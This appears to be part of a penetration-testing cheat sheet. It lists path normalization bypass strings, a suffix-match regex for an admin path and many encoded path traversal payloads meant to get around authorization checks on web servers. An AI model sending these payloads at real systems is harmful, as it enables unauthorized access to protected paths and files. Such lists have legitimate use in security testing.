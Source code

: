 ### Path Normalization Bypass

```
%2e%2f
%2e%2f%2f
%2e;/
/%2e/%2e
/%2e/%2e;
/%2e;
/.././../
;/../..//
;/../%2f/
/;/../
/;/../%2f/
/;/../..//
/;/.././../
/;/../.;/../
```

### Suffix Pattern Match

TODO: Fill the helpful payloads for authorization bypass (refer to links)

```
/admin[.].*
```

### Path Traversal

```
%09..
%09../
%09..;
%09..;/
%2e%2e
%2e%2e%2f
%2e%2e/
%2e%2e;
../
../../
../../../
../../..//
/../
/../../
/../../../
/../../..//
/../..//
/../..//../
/.././../
/../.;/../
/..//
/..//../
/..//../../
/..//..;/
/../;/
/../;/../
```
